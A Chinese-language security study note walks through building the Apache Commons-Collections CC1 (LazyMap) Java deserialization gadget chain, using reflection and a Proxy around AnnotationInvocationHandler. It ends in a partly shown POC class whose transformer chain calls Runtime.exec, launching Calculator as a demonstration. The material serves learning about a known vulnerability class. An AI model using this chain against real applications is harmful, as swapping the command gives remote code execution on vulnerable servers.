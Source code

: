 在之前的[TransformedMap POC](https://github.com/reidmu/sec-note/blob/main/Java-sec/CC1-TransformedMap.md#0x03-poc-%E7%BC%96%E5%86%99)的基础上做个修改，先用 `LazyMap` 替换 `TransformedMap`：

```
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

然后，创建一个 `sun.reflect.annotation.AnnotationInvocationHandler` 实际对象的Proxy对象：

（别忘了通过反射调用，忘记为啥的看[这里](https://github.com/reidmu/sec-note/blob/main/Java-sec/CC1-TransformedMap.md#34-annotationinvocationhandler-%E7%9A%84%E5%8F%8D%E5%B0%84%E8%B0%83%E7%94%A8))

```
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);

// 创建InvocationHandler接口的实现类的实例
InvocationHandler handler = (InvocationHandler) construct.newInstance(SuppressWarnings.class, outerMap);

// 创建代理类对象
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
```

代理后的对象叫做 `proxyMap` ，但不能直接对其进行序列化，因为反序列化的入口点是 `sun.reflect.annotation.AnnotationInvocationHandler#readObject` ，所以还需要再用 `AnnotationInvocationHandler` 对这个 `proxyMap` 进行包裹：

```
handler = (InvocationHandler) construct.newInstance(SuppressWarnings.class, proxyMap);
```

最终的POC如下：
```
package org.vulhub.Ser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1_2 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        // 创建一个map，不用添加Entry
        Map innerMap = new HashMap();
```